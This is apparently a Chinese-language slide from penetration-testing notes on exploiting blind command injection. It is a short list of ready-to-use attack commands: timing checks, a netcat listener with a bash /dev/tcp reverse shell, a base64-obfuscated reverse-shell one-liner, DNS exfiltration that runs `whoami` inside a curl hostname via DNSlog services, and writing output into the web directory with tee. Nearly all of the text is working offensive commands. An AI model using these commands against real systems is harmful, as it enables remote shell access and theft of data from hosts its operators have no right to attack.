

无回显利用
- sleep(3)判断是否执行成功；curl公网服务器（需要靶机有curl）

- 尝试反弹shell
nc -lvp 7777
bash -i >& /dev/tcp/ip/7777 0>&1
- bash -c "{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yMS4xMzIvNzc3OCAwPiYx}|{base64,-d}|{bash,-i}"

- dns外带
curl `whoami`.xxx.xx.xx；反引号包裹的内容会被作为命令先执行，然后再拼接
http://ceye.io/    https://dnslog.cn/	burp自带

- 写文件到web目录
ls | tee a #将ls的结果输入文件a中